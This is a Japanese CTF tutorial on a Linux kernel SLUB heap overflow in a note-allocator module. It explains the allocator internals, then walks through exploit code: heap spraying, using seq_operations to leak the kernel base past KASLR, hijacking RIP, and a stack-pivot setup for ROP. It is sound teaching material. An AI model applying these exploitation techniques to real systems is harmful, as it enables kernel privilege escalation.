



## Challenge

[[Distribution File]](https://r2.p3land.smallkirby.com/slub-585a7c9b1db0f6843ff37247218317fa81a479d405c42f3c00ef5c49b465f764.tar.gz)

[[vmlinux with debug symbols]](https://r2.p3land.smallkirby.com/vmlinux-slub.tar.gz)

```sh
nc sc skb.pw 49407
```

## Challenge概要と脆弱性

さっそく問題概要に入りましょう。
まずは起動オプションです:

```sh
  -cpu kvm64,+smep,-smap \
  -append "console=ttyS0 oops=panic panic=1 quiet" \
```

SMEP/KPTIが有効化されていますが、SMAPは無効化されています。
本当は有効化したかったんですが、exploitをシンプルにするために泣く泣く無効化した筆者の顔が浮かびますね。

LKMソースは以下の感じです:

```c
typedef struct {
  size_t size;
  /** Actual note follows immediately **/
} note;

#define NOTE_NOTE_BUF(note) ((char *)(note + 1))
note *notes[MAX_NUM_NOTE] = {0};
long slub_ioctl(struct file *filp, unsigned int cmd, unsigned long arg) {
  ...

  switch (cmd) {
    case SLUB_IOCTL_CREATE:
      idx = find_empty_note();
      if (idx == -1) {
        ret = -ENOMEM;
        break;
      }
      if (req.size > MAX_SIZE_NOTE || req.size < sizeof(note)) {
        ret = -EINVAL;
        break;
      }
      if ((note = kzalloc(req.size, GFP_KERNEL)) == NULL) {
        ret = -ENOMEM;
        break;
      }
      if (copy_from_user(NOTE_NOTE_BUF(note), req.buf, req.size)) {
        ret = -EFAULT;
        break;
      }
      note->size = req.size;
      notes[idx] = note;
      ret = idx;
      break;
    case SLUB_IOCTL_DELETE:
      if (req.idx >= MAX_NUM_NOTE || (note = notes[req.idx]) == NULL) {
        ret = -EINVAL;
        break;
      }
      kfree(note);
      notes[req.idx] = NULL;
      break;
    case SLUB_IOCTL_READ:
      if (req.idx >= MAX_NUM_NOTE || (note = notes[req.idx]) == NULL) {
        ret = -EINVAL;
        break;
      }
      if (copy_to_user(req.buf, NOTE_NOTE_BUF(note), note->size)) {
        ret = -EFAULT;
        break;
      }
      break;
    default:
      ret = -EINVAL;
      break;
  }

out:
  mutex_unlock(&mtx);
  return ret;
}
```

シンプルなノートアロケータで、以下のことができます:

- CREATE: 任意サイズのノートを作成。好きな値を書き込める。
- DELETE: 指定したインデックスのノートを削除。
- READ  : 指定したインデックスのノートを取得。

ノートは`struct note`という構造体で表され、`size`フィールドにノートのサイズが格納されています。
ノートの実体は`NOTe_NOTE_BUF`マクロとコメントが示すように、`size`フィールドの直後に格納されます。
可変長構造体です。Cではたまに使われる方法で、`struct msg_msg`等がこんな感じになっています。

脆弱性は、`SLUB_IOCTL_CREATE`内にありますね。
`kzalloc`で取得するのはユーザが指定した`req.size`サイズだけですが、
`copy_from_user()`では`req.buf`からコピーを始めるので`sizeof(size)`だけオーバーフローが発生します。
kernel heap内におけるオーバーフローです。

## Memory Allocator

heapでのオーバーフローに対する攻撃を行うため、ここでheapに対する知識が必要になります。
P3LANDでは [User - heap: tcache](/user/tcache) においてglibc heapに対する攻撃を扱っています。
対して、kernelのheapはいくらかシンプルです。
Linuxにおいては、メモリアロケータと呼べるものが2種類あります。

### Buddy Allocator

ページの確保と分配を行うアロケータを **Buddy Allocator** と呼びます。
Buddy Allocatorは、`alloc_pages()`([/mm/page_alloc.c]())等のAPIから呼び出され、ページ単位でメモリを確保します:

```c
static inline struct page *alloc_pages(gfp_t gfp_mask, unsigned int order)
```

`order`は確保するページの数の指数を表しています。
`0`なら`2^0 == 1`, `3`なら`2^3 == 8`ページを確保するといった感じです。
この指定方法からも察せられるとおり、Buddy Allocatorは内部で利用可能なページ一覧を2の累乗単位で確保しています。
Order-3のキューには連続した8ページの集まりが入っています。
Buddy Allocator自体も大切ですが、本セクションではほとんど意識する必要がないため、詳細は割愛します。


Linuxでは仮想アドレスのレイアウトが決まっており、ユーザ空間がどこにマップされるか、
どこからどこまでがstraight mapされるか、GDTがどこにマップされるか等が決まっています。
レイアウトの詳細は[Linuxツリーのドキュメント](https://www.kernel.org/doc/Documentation/x86/x86_64/mm.txt)を参照してください。


### SLUB Allocator

Buddy Allocatorはページ単位のアロケータでしたが、より小さい粒度でオブジェクトを管理するアロケータもあります。
Linuxでは、一般的に **SLUB Allocator** と呼ばれるアロケータが使われます。

SLUB Allocatorは **SLUB** と呼ばれるページ単位の領域を管理し、その中に**同一サイズのオブジェクトを確保**します。
SLUBが司るオブジェクトのサイズは `8, 16, 32, 64, 96, 128, ..., 4k, 8k`まであり、
これらの情報は`/proc/slabinfo`から見ることができます:

```sh
/ # cat /proc/slabinfo
slabinfo - version: 2.1
# name            <active_objs> <num_objs> <objsize> <objperslab> <pagesperslab> : tunables <limit> <batchcou>
scsi_sense_cache      32     32    128   32    1 : tunables    0    0    0 : slabdata      1      1      0
virtio_scsi_cmd       84     84    192   21    1 : tunables    0    0    0 : slabdata      4      4      0
jbd2_transaction_s      0      0    256   16    1 : tunables    0    0    0 : slabdata      0      0      0
jbd2_journal_head      0      0    120   34    1 : tunables    0    0    0 : slabdata      0      0      0
jbd2_revoke_table_s      0      0     16  256    1 : tunables    0    0    0 : slabdata      0      0      0
ext4_fc_dentry_update      0      0     80   51    1 : tunables    0    0    0 : slabdata      0      0      0
...
kmalloc-8k             8      8   8192    4    8 : tunables    0    0    0 : slabdata      2      2      0
kmalloc-4k            32     32   4096    8    8 : tunables    0    0    0 : slabdata      4      4      0
kmalloc-2k           152    152   2048    8    4 : tunables    0    0    0 : slabdata     19     19      0
kmalloc-1k           760    760   1024    8    2 : tunables    0    0    0 : slabdata     95     95      0
kmalloc-512          176    176    512    8    1 : tunables    0    0    0 : slabdata     22     22      0
kmalloc-256          864    864    256   16    1 : tunables    0    0    0 : slabdata     54     54      0
kmalloc-192          189    189    192   21    1 : tunables    0    0    0 : slabdata      9      9      0
kmalloc-128          256    256    128   32    1 : tunables    0    0    0 : slabdata      8      8      0
kmalloc-96           336    336     96   42    1 : tunables    0    0    0 : slabdata      8      8      0
kmalloc-64           704    704     64   64    1 : tunables    0    0    0 : slabdata     11     11      0
kmalloc-32           512    512     32  128    1 : tunables    0    0    0 : slabdata      4      4      0
kmalloc-16           768    768     16  256    1 : tunables    0    0    0 : slabdata      3      3      0
kmalloc-8           3072   3072      8  512    1 : tunables    0    0    0 : slabdata      6      6      0
```

`<objsize>`がオブジェクトのサイズ、`<objperslab>`が1SLUBあたりに入れることの出来るオブジェクトの数です。
`kmalloc-128`を見てみると、サイズが`128`・1SLUBあたりに`32`個のオブジェクトを入れることができることがわかります。
また、`<pagesperslab>`は1SLUBのために確保されるページ数を表しています。
`kmalloc-128`では`1`となっており、1ページ(`4096 bytes`)の中にサイズが`128`のオブジェクトが入るため、
`4096 / 128 == 32`個のオブジェクトを入れることができます。`<objperslab>`と一致していますね。

SLUB Allocatorは、`kmalloc()`や`kzalloc()`等のAPIでメモリを要求された場合、
要求サイズに対応するSLUBからオブジェクトを確保してユーザに返します。
また、これらのSLUBページ自体はBuddy Allocatorに対してページを要求しています。


kernelのメモリ取得APIには`kmalloc`の他に`vmalloc`というものもあります。
`kmalloc`との違いとして、`vmalloc`はSLUB Allocatorを利用せずページ単位でメモリを確保します。
また、`kmalloc()`で取得した領域は物理的に連続することが保証されています(Buddy AllocatorからSLUBを確保するため)が、
`vmalloc`で取得した領域は物理的に連続することが保証されていないという特徴があります(もちろん仮想アドレス的には連続しています)。


少しだけ実装に立ち入ってみましょう。
各SLUBは、`struct kmem_cache`([]())という構造体によって管理されます:

```c
struct kmem_cache {
	struct kmem_cache_cpu __percpu *cpu_slab;
	slab_flags_t flags;
	unsigned long min_partial;
	unsigned int size;	/* The size of an object including metadata */
	unsigned int object_size;/* The size of an object without metadata */
	struct reciprocal_value reciprocal_size;
	unsigned int offset;	/* Free pointer offset */
  ...
	const char *name;	/* Name (only for display!) */
	struct list_head list;	/* List of slab caches */
	unsigned int useroffset;	/* Usercopy region offset */
	unsigned int usersize;		/* Usercopy region size */

	struct kmem_cache_node *node[MAX_NUMNODES];
};
```

`name`には`kmalloc-32`とかの名前が入ります。
大事なフィールドは`struct kmem_cache_cpu cpu_slab`と`struct kmem_cache_node node[]`です。
今回は話をシンプルにするため`cpu_slab`だけ見てみます:

```c
struct kmem_cache_cpu {
	void **freelist;	/* Pointer to next available object */
	unsigned long tid;	/* Globally unique transaction id */
	struct slab *slab;	/* The slab from which we are allocating */
	struct slab *partial;	/* Partially allocated frozen slabs */
	local_lock_t lock;	/* Protects the fields above */
};

struct slab {
	unsigned long __page_flags;
	union {
		struct list_head slab_list;
		struct rcu_head rcu_head;
	};
	struct kmem_cache *slab_cache;
	/* Double-word boundary */
	void *freelist;		/* first free object */
	union {
		unsigned long counters;
		struct {
			unsigned inuse:16;
			unsigned objects:15;
			unsigned frozen:1;
		};
	};
	unsigned int __unused;
	atomic_t __page_refcount;
};
```

ここで、SLUBの構造を簡単に図示してみましょう:



単純のためにあまり正確ではないですが、ざっくりしたイメージとしては図のようになります。
`kmem_cache_cpu`は、最も最近freeされたオブジェクトのアドレスを`freelist`に保持しています。
また、SLUB内のfreeされたオブジェクトはglibcと同様に次の空きオブジェクトを指すポインタをオブジェクト内部に保持しています。
これによって、そのSLUB内の保持されたオブジェクトを`freelist`を辿ることで全列挙できます。

また、`partial`では残りのSLUBが管理されています。
図のSLUB A内のfreeオブジェクトが全て確保されてしまうと`partial`のSLUBから
`slab`に引っ張ってきます。


`/proc/slabinfo`の中には`kmalloc-XX`という名前ではないキャッシュがあることに気づいたでしょうか。
実は、kernelの中でもいくつかの構造体は`kmalloc-XX`のようなサイズによってのみ決まるSLUBではなく、
専用のキャッシュ・SLUBを保持している場合があります。
例えば、ユーザ情報を司る`struct cred`は`cred_jar`という名前の専用のキャッシュを持っています
([/kernel/cred.c]())。

```c
static struct kmem_cache *cred_jar;
```

また、`CONFIG_MEMCG_KMEM`が有効になっている場合には`kmalloc-cg-XX`という名前の汎用キャッシュも作られることになります。
(ちょっと筆者は詳しく調べていないんですが、)これを有効化するとcgroupに関連するような構造体が`SLAB_ACCOUNT`フラグを指定することで`kmalloc-cg-XX`キャッシュを使うようになります。
つまり、汎用キャッシュも以前に比べると幾分か専用化されてきているということですね。

```c
#ifdef CONFIG_MEMCG_KMEM
#define KMALLOC_CGROUP_NAME(sz)	.name[KMALLOC_CGROUP] = "kmalloc-cg-" #sz,
#else
#define KMALLOC_CGROUP_NAME(sz)
#endif

void __init seq_file_init(void)
{
	seq_file_cache = KMEM_CACHE(seq_file, SLAB_ACCOUNT|SLAB_PANIC);
}
```


## `note`を使った同一SLUB内構造体のleak

さて、少し駆け足ですがSLUB Allocatorについて触れました。
SLUB Allocatorでは、(基本的に)オブジェクトサイズに応じてどのキャッシュ・SLUBを利用するかが決まります。
この性質と **Challenge LKMのheap overflowを利用することで、`note`と同じSLUBに確保されるkernel構造体を
書き換えたり読み込んだりすることができます**。
今回は`struct seq_operations`という構造体を`note`に隣接させて確保することで、
`seq_operations`の値を読み取ったり上書きしようと思います。
この構造体の詳細については後ほど触れます。

userlandのASLRと同様に、Kernelのベースアドレスはランダマイズされています(**KASLR**)。
よって、**まずはkernel base (kbase)をleakする必要** があります。

### GDBでheapを見る

何はともあれまずはexploitから見てみましょう:

```c
#define INIT_SPRAY_NOTE_N 0x40
#define SEQ_NOTE_SIZE 0x20
  puts("[+] Spraying notes...");
  int last_note_idx;
  for (int i = 0; i < INIT_SPRAY_NOTE_N; ++i) {
    last_note_idx = create_note(fd, SEQ_NOTE_SIZE, buf1);
  }
```

まずは`note`を大量に作ります。
ノートの中身にはとりあえず`A`という文字列を大量に入れておきます。
そのサイズは`0x20`にしていますが、その理由は後述します。

この段階でGDBを開いてheapの様子を見てみましょう。
サイズ`0x20`で確保したため、`kmalloc-32`に入っているはずですね。
汎用キャッシュは`kmalloc_caches`という変数に格納されています([/mm/slab_common.c]()):

```c
struct kmem_cache *
kmalloc_caches[NR_KMALLOC_TYPES][KMALLOC_SHIFT_HIGH + 1] __ro_after_init =
{ /* initialization for https://bugs.llvm.org/show_bug.cgi?id=42570 */ };
EXPORT_SYMBOL(kmalloc_caches);
```

`kmalloc()`([/include/linux/slab.h]())の実装を見てみると、以下のようにこの配列を参照していることが分かります:

```c
static __always_inline __alloc_size(1) void *kmalloc(size_t size, gfp_t flags)
{
	if (__builtin_constant_p(size)) {
		unsigned int index;
    ...
		index = kmalloc_index(size);
    ...
		return kmalloc_trace(
				kmalloc_caches[kmalloc_type(flags)][index],
				flags, size);
	}
	return __kmalloc(size, flags);
}
```

ここで、`kmalloc_index()`([/include/linux/slab.h]())は以下のように信じられないくらい力技で実装されています:

```c
static __always_inline unsigned int __kmalloc_index(size_t size,
						    bool size_is_constant)
{
	if (!size)
		return 0;

	if (size <= KMALLOC_MIN_SIZE)
		return KMALLOC_SHIFT_LOW;

	if (KMALLOC_MIN_SIZE <= 32 && size > 64 && size <= 96)
		return 1;
	if (KMALLOC_MIN_SIZE <= 64 && size > 128 && size <= 192)
		return 2;
	if (size <=          8) return 3;
	if (size <=         16) return 4;
	if (size <=         32) return 5;
  ...
}
```

よって、`kmalloc(GFP_KERNEL)`の場合には`kmalloc_caches[0][5]`で参照されることが分かります。
GDBで見てみましょう:

```sh
gef> p *kmalloc_caches[0][5]
$5 = {
  cpu_slab = 0x1ece0,
  flags = 0x40000000,
  min_partial = 0x5,
  size = 0x20,
  object_size = 0x20,
  reciprocal_size = {
    m = 0x1,
    sh1 = 0x1,
    sh2 = 0x4
  },
  offset = 0x10,
  cpu_partial = 0x1e,
  oo = {
    x = 0x80
  },
  max = {
    x = 0x80
  },
  min = {
    x = 0x80
  },
  ...
}
```

`cpu_slab`はPERCPU variableのため、GSで示される値を加算してアクセスしましょう:

```sh
gef> msr MSR_GS_BASE
MSR_GS_BASE (0xc0000101): 0xffff88800f600000 (=0b1111_1111_1111_1111_1000_1000_1000_0000_0000_1111_0110_0000_0000_0000_0000_0000)
gef> p *(struct kmem_cache_cpu*)(0xffff88800f600000 + 0x1ece0)
$22 = {
  freelist = 0xffff8880032d6380,
  tid = 0xeaa,
  page = 0xffffea00000cb580,
  partial = 0x0 <fixed_percpu_data>,
  lock = {<No data fields>}
}
```

`freelist`は`0xffff8880032d6380`を指しています。
ということは、これよりも少し前の領域に`note`が大量に置いてあるはずです:

```sh
gef> x/30gx 0xffff8880032d6380 - 0x40
0xffff8880032d6340:     0x0000000000000020      0x4141414141414141
0xffff8880032d6350:     0x4141414141414141      0x4141414141414141
0xffff8880032d6360:     0x0000000000000020      0x4141414141414141
0xffff8880032d6370:     0x4141414141414141      0x4141414141414141
0xffff8880032d6380:     0x4141414141414141      0x0000000000000000
0xffff8880032d6390:     0xffff8880032d63a0      0x0000000000000000
0xffff8880032d63a0:     0x0000000000000000      0x0000000000000000
0xffff8880032d63b0:     0xffff8880032d63c0      0x0000000000000000
0xffff8880032d63c0:     0x0000000000000000      0x0000000000000000
0xffff8880032d63d0:     0xffff8880032d63e0      0x0000000000000000
```

確かに`AAAAAAA`(`0x414141414141`)という文字列と`size`に該当する`0x20`が入ったオブジェクトがあり、
これが`kmalloc-32`の中の`note`構造体であることが分かります:

ちなみにここまでの手順を効率化するために、gefの場合には`slub-dump`という超便利コマンドがあります。

```sh
gef> slub-dump
    name: kmalloc-32
    flags: 0x40000000 (__CMPXCHG_DOUBLE)
    object size: 0x20 (chunk size: 0x20)
    offset (next pointer in chunk): 0x10
    kmem_cache_cpu (cpu0): 0xffff88800f61ece0
      active page: 0xffffea00000cb580
        virtual address: 0xffff8880032d6000
        num pages: 1
        in-use: 28/128
        frozen: 1
        layout    0x000 0xffff8880032d6000 (in-use)
                  0x001 0xffff8880032d6020 (in-use)
                  0x002 0xffff8880032d6040 (in-use)
                  0x003 0xffff8880032d6060 (in-use)
                  0x004 0xffff8880032d6080 (in-use)
                  0x005 0xffff8880032d60a0 (in-use)
                  ...
                  0x01a 0xffff8880032d6340 (in-use)
                  0x01b 0xffff8880032d6360 (in-use)
                  0x01c 0xffff8880032d6380 (next: 0xffff8880032d63a0)
                  0x01d 0xffff8880032d63a0 (next: 0xffff8880032d63c0)
                  0x01e 0xffff8880032d63c0 (next: 0xffff8880032d63e0)
```

`0xffff8880032d6360`には明らかに`note`が入っています。
また、 **`freelist`にはこの`note`のすぐ次の領域が指されている** ことが分かります。
この状態で`kmalloc-32`からオブジェクトを確保しようとすると、
**`note`のすぐ次に`seq_operations`が確保されるはずです！**


上のGDB表示からも分かるように、freeなオブジェクトには次のfreeオブジェクトを指すポインタが入っています。
このポインタは、`kmem_cache`構造体の`offset`が示すオフセットに格納されます。
今回の場合は`offset`が`0x10`なので、オブジェクトの先頭から`0x10`バイト目に格納されます。

これは、今回のようなoverflowによる`freelist`の書き換えを防ぐためです。
また、`CONFIG_SLUB_FREELIST_HARDENED`や`CONFIG_SLUB_FREELIST_RANDOM`のようなコンフィグによって
さらにこの`freelist`の保護を強化することもできます。


### seq_operations

`seq_operations`は、`/proc/self/stat`等のファイルに対して`open`をした時に
`proc_single_open()`から呼ばれる`single_open()`([/fs/seq_file.c]())内で確保されます:

```c
struct seq_operations {
	void * (*start) (struct seq_file *m, loff_t *pos);
	void (*stop) (struct seq_file *m, void *v);
	void * (*next) (struct seq_file *m, void *v, loff_t *pos);
	int (*show) (struct seq_file *m, void *v);
};

int single_open(struct file *file, int (*show)(struct seq_file *, void *),
		void *data)
{
	struct seq_operations *op = kmalloc(sizeof(*op), GFP_KERNEL_ACCOUNT);
	int res = -ENOMEM;

	if (op) {
		op->start = single_start;
		op->next = single_next;
		op->stop = single_stop;
		op->show = show;
    ...
	}
	return res;
}
```

その中には4つの関数ポインタが入っています。
サイズは`0x20`なので、(今回のkernelでは)`kmalloc-32`に格納されることになります。

よって、この`seq_operations`を`note`の真隣に確保してあげればoverflowを利用して
`seq_operations.start`に格納されている`single_start()`のアドレスをleakすることができます。

### kbase leak

さて、ここまでで背景の説明が終わったので早速leakをしましょう。
今`freelist`は`note`の直後を指しているので、この時点で`seq_operations`を確保すれば
`note`に隣接することになります:

```c
#define INIT_SPRAY_SEQOPS_N 0x20
  puts("[+] Spraying seq_operations...");
  int seq_fds[INIT_SPRAY_SEQOPS_N];
  for (int i = 0; i < INIT_SPRAY_SEQOPS_N; ++i) {
    if ((seq_fds[i] = open("/proc/self/stat", O_RDONLY)) < 0) {
      perror("[-] open(seq_ops)");
      exit(EXIT_FAILURE);
    }
  }
```

この時点でheapは以下のようになります:

```sh
gef> x/50gx 0xffff8880032e4340
## NOTE 1
0xffff8880032e4340:     0x0000000000000020      0x4141414141414141
0xffff8880032e4350:     0x4141414141414141      0x4141414141414141
## NOTE 2
0xffff8880032e4360:     0x0000000000000020      0x4141414141414141
0xffff8880032e4370:     0x4141414141414141      0x4141414141414141
## seq_operations
0xffff8880032e4380:     0xffffffff811742b0      0xffffffff811742d0
0xffff8880032e4390:     0xffffffff811742c0      0xffffffff811bef60
```

確かに隣接しています。
このとき、`0xffff8880032e4380`に入っている値を`NOTE 2`の`read`を使ってleakすることができます。
これでkbaseのleak完了です。

### heap feng shui

少し小話です。
exploitで最初に`note`を確保する時、1つだけではなく大量に確保しました。
これはなぜでしょうか。

`note`を確保する前にheapが下図の左の状態だったとします。
free領域が飛び飛びな状態です:



この状態で`note`を1つだけ確保すると、真ん中の状態になります。
そこからさらに`seq_operations`を取得すると、右の状態になります。
`note`と`seq_operations`が離れ離れになってしまっています。
これではだめですね。

一方で、最初に`note`を大量に取ると現在のSLUBページを使い果たして次の新しいSLUBがとられることになります。
すると、`freelist`リストは上から下に一直線になり、オブジェクトは確保した順に並ぶことになります。



このように、heapの状態が望ましい状態になるように沢山オブジェクトを確保してSLUBをリフレッシュさせることを
**Heap Spray** と言ったりします。
また、より一般的にheapの状態を整理することを **Heap Feng Shui** と言ったりします。
人にexploitを説明するのがめんどくさいときは、とりあえず「heap feng shuiした」と言うと説明が省けるので便利な言葉です。

## overflowによるRIP奪取

さて、ここまででkbaseのleakができました。
次はRIPを取ります。

`/proc/self/stat`等のファイルに対して`read`等を読むと、`vfs_read()`->`seq_read()`->`seq_read_iter()`
において`seq_operations.start`が呼ばれます([/fs/seq_file.c]())。
よって、`seq_operations.start`の値を好きな値に書き換えておくことでRIPを取ることができます。

今は取り敢えずRIPを取れることを確認するため、`0xDEADBEEFCAFEBABE`を入れておきます:

```c
*(ulong *)(buf1 + SEQ_NOTE_SIZE - 8) = 0xDEADBEEFCAFEBABE;
for (int i = 0; i < 5; ++i) {
  create_note(fd, SEQ_NOTE_SIZE, buf1);
}
```

この状態で`read()`を`/self/stat/open`した`fd`に対して呼ぶと以下のようになります:

```sh
general protection fault: 0000 [#1] SMP PTI
CPU: 0 PID: 152 Comm: exploit Tainted: G           O      5.15.0 #2
Hardware name: QEMU Standard PC (i440FX + PIIX, 1996), BIOS 1.15.0-1 04/01/2014
RIP: 0010:0xdeadbeefcafebabe
Code: Unable to access opcode bytes at RIP 0xdeadbeefcafeba94.
RSP: 0018:ffffc90000463dd8 EFLAGS: 00000246
RAX: deadbeefcafebabe RBX: 0000000000000000 RCX: 0000000000004c63
RDX: 0000000000004c62 RSI: ffff88800313d028 RDI: ffff88800313d000
RBP: ffffc90000463e30 R08: ffff888003105000 R09: 0000000000000000
R10: 0000000000000000 R11: 0000000000000000 R12: ffffc90000463e78
R13: 00000000004f0c90 R14: ffff88800313d028 R15: ffff88800313d000
FS:  00000000004ee3c0(0000) GS:ffff88800f600000(0000) knlGS:0000000000000000
CS:  0010 DS: 0000 ES: 0000 CR0: 0000000080050033
CR2: 000000005d001690 CR3: 000000000328a000 CR4: 00000000001006f0
```

RIPが取れました。

## stack pivotによるROP

さて、ここまででRIPを取ることができました。
あとはRIPを取るだけです。

今回はSMAPを無効にしているため、 **予めuserlandにROP-chainが入った領域を用意しておき**、
**RIPを奪った最初の命令でRSPをuserlandの領域に向ける** ことでROPをすることにしましょう。

なお、RSPを1命令で任意の値にすることは難しいため、今回は以下のようなガジェットを使います:

```sh
$ rp++ --file ./vmlinux -r1 | grep -e "mov esp, "
...
0xffffffff8110b470: mov esp, 0x5D001690 ; ret ; (1 found)
...
```

このタイプのガジェットならばたくさん落ちていますが、stackとして使うため下1byteはアラインされているものを選んでください。
ガジェットを決めたら、`0x5D001690`にROP-chainを置いておきます:

```c
puts("[+] Allocating pivot stack...");
ulong pivot_stack_gadget = kbase + 0x10B470;  // mov esp, 0x5D001690
ulong pivot_stack_exact = 0x5D001690;
ulong pivot_stack = pivot_stack_exact & ~0xFFF;
ulong *stack = mmap((void *)pivot_stack, PAGE, PROT_READ | PROT_WRITE,
                    MAP_PRIVATE | MAP_ANONYMOUS | MAP_FIXED, -1, 0);
if (stack == MAP_FAILED) {
  perror("[-] mmap(stack)");
  exit(EXIT_FAILURE);
}
```

あとはここにROP-chainを書き込んでおくだけです。
ROP-chainについては [SMAP/KPTI](/kernel/smap) の章を参照してください。

----------------------------

これでSLUB内で隣接するkernel構造体を利用してKASLRのバイパス及びRIPの奪取が出来るはずです。
ぜひリモートでフラグを取ってみてください！
